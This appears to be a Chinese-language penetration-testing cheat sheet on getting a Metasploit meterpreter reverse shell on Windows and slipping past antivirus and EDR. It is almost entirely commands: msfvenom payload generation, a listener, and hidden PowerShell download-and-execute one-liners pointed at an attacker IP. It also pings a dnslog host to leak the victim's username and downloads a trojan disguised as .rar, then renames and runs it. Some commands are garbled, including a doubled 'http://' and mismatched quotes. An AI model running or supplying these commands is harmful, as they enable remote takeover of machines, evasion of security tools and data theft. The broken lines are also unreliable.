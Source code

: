 **反弹msf的shell**

```
#VPS上操作
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.6.54.194 lport=7788 -f psh-reflection -o 7788.ps1        #生成木马文件 7788.ps1
python -m SimpleHTTPServer 80  #开启web服务
#MSF监听
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 10.6.54.194
set lport 7788
run

#目标机器上操作
powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://http://10.6.54.194:8000/7788.ps1');xx.ps1"  #后台运行
或者
powershell -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.6.54.194:8000/7788.ps1');xx.ps1'
```

### **绕过杀软、EDR**

**浏览器下载**

前提条件：服务端出网、安装浏览器、获得到用户名

首先，将我们的免杀木马后缀改为 rar或者zip ，exe后缀需要认证才能下载。当然，还有大量的后缀可以使用，需要注意的是，这种后缀的文件必须是直接下载，而不是在浏览器中打开。

```
一般浏览器下载默认路径为： C:\Users\当前用户名字\Downloads\ 

通过dnslog外带当年用户名 
ping %USERNAME%.4e4ppf.dnslog.cn 
如果是powershell则 
cmd /c ping %USERNAME%.xb1y2y.dnslog.cn
```

讲木马名字改为zip或者rar、使用命令远程下载文件

```
使用默认浏览器下载 
pcalua -m -a http://192.168.31.205/geek.rar 
其他浏览器 
start msedge http://192.168.31.205/geek.rar 
start chrome http://192.168.31.205/geek.rar 
start firefox http://192.168.31.205/geek.rar
```

下载完成后、将文件重命名exe并运行

```
rename geek.rar geek.exe 
geek.exe 
或者 
start msedge http://192.168.31.205/geek.rar && ping -n 10 127.0.0.1 >NUL && rename geek.rar geek.exe && cmd /c geek.exe
```
